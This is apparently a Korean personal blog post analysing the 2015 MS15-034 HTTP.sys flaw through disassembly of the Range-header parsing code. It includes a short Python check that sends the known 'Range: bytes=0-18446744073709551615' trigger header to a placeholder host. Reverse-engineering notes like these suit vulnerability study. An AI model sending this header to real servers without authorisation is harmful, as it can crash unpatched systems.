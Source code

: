 ```yaml
---
layout: post
title: "MS15-034 HTTP.sys"
date: 2015-04-16 16:09:37 +0900
comments: true
categories: 
---
```


``` python
import socket
target = 'www.babo.com'
port = 80

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect( (target,port) )
s.send("GET / HTTP/1.1\r\nHost: www.babo.com\r\nRange: bytes=0-18446744073709551615\r\n\r\n")
resp = s.recv(4096)

print resp

if "Range Not Satisfiable" in resp:
    print "Looks vulnerable."
```

Errata Security Blog 에 따르면, GET request 가 static contents 에 들어가야만 `Range:` 가 처리되서 버그가 trigger 된다고 한다. `.asp` 같은 동적 contents 를 호출하면 trigger 할 수 없다는 이야기.

[The Delicate Art of Remote Checks - A Glance Into MS15-034](http://blog.beyondtrust.com/the-delicate-art-of-remote-checks-a-glance-into-ms15-034) 를 읽어보니,

* bindiff 를 때리고
* similarity 를 보고 패치가 들어간 함수들을 찾아서, 
* IDA Pro 로 보니, `_UlpParseRange@32` 의 caller 는 `_UlContentRangeHeaderHandler@20`
* `kd> bp HTTP!urlparserange "k;g"

``` 
0006ED31    _UlpParseRange@32

0006EEF9    sub     eax, edi
0006EEFB    sbb     ecx, edx
0006EEFD    add     eax, 1
0006EF00    adc     ecx, 0
0006EF03    mov     ds:[esi], eax
0006EF05    mov     ds:[esi+4], ecx
```

코드상으로 보면 `ecx:eax` 에서 `edx:edi` 를 subtract 하는 것이다. 즉 8 바이트 더하기/빼기 연산.
하단부터 빼고, `sbb` 로 borrow 까지 쳐서 빼는 코드.
그리고, 하단에 `+1` 을 하고, 상단에 `adc` 로 캐리까지 올려서 더해주기.

`Range: A-B` 에서 `B - A + 1` 을 구현하는 코드로 보인다.

``` python
>>> 0xFFFFFFFFFFFFFFFF
18446744073709551615L
```

여기에 `B` 값에 `0xFFFFFFFFFFFFFFFF` 이 들어가면서 문제가 벌어지는 것 같은데.

테스트해보는 김에 다음을 해봐야겠다.

1. Visual C++ 에서 signed/unsigned 다양하게 `B - A + 1` 을 해본다. B 는 0xFFFFFFFFFFFFFFFF 를 넣어서.
2. 저 x86 인스트럭션을 가지고 그대로 테스트해본다.

가장 좋은건 취약한 IIS 버전을 VM 에 올려서 kd 를 걸고 해보는 것인데, 나중에 해볼련다.
